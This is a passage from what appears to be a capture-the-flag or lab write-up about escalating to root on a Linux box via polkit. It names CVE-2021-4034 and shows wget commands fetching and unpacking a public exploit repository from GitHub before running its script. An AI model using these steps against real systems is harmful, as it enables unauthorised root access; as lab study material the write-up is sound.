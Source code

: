 ```
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/cockpit-session
```

I familiarized myself with the listed files and searched the Internet for help. I found interesting information on privilege escalation with polkit. I decided to become more familiar with this topic with the hope of finding a solution.

<p align="center">
  <img src="images/github_forum.png">
</p>

### Exploitation
I found two CVEs (CVE-2021-4034 and CVE-2021-3560) that I could potentially use in an attack to gain root access.

I decided to use CVE-2021-4034. I found the corresponding repository on [GitHub](https://github.com/berdav/CVE-2021-4034) and downloaded it in zip form. Of course, I unpacked it after downloading.

```
[magellan@venus ~]$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.zip
[magellan@venus ~]$ unzip main.zip
```

After unzipping, the `CVE-2021-4034-main` directory contained the following files:

<p align="center">
  <img src="images/unpacked_zip.png">
</p>

After executing the `.sh` file, I was able to access the root account.

<p align="center">
  <img src="images/executed_sh.png">
</p>
